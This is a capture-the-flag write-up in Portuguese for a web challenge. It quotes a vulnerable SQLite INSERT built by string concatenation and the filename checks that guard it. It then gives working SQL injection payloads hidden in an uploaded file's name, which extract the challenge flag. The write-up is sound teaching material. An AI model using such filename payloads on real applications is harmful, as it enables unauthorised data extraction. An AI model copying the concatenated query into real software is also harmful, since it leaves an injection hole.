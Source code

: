 # Versão Final?
### _WEB_

Baixando os arquivos que foram disponibilizados temos acesso ao código fonte da aplicação. Analisando esse código fonte, encontramos um SQL Injection:
```
 with sqlite3.connect(DATABASE) as conn:
    conn.execute("INSERT INTO images (ip, name) VALUES ('" + ip + "', '" + filename + "');")
    conn.commit()
```

Como o ip não pode ser manipulado pois o mesmo é criptografado com md5, só nos resta editar o nome do arquivo. Para editar o nome do arquivo, precisamos construir um payload em que as verificações de nome do arquivo sejam válidas:
```
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def secure_filename(filename):
    filename = filename.replace('/', '')
    filename = filename.split('.')
    if len(filename) == 2:
        return filename[0]+'.'+filename[1]
    return False
```

A função ```allowed_file()``` apenas verifica se existe apenas 1 extensão e se essa extensão é permitida. Já a função ```secure_filename()``` retira / e . do nome do arquivo.

Então o seguinte nome do arquivo é válido: ```image') PAYLOAD -- -.jpg```. Por fim, temos o payload:
```image') UNION SELECT ip_md5,0x61616161 FROM images -- -```
![Imagem 1](./versao_final1.png)

Acessando ```/list```, além dos nomes de images temos também o valor "1633771873" cadastrado (0x61616161 == 1633771873).
![Imagem 2](./versao_final2.png)

Portanto, para a flag:
```image') UNION SELECT ip_md5,flag FROM flag -- -```
![Imagem 3](./versao_final3.png)

Acessando o ```/list```:
![Imagem 4](./versao_final4.png)

FLAG:
```
DC5551{sql1?-r4nd;;}
```

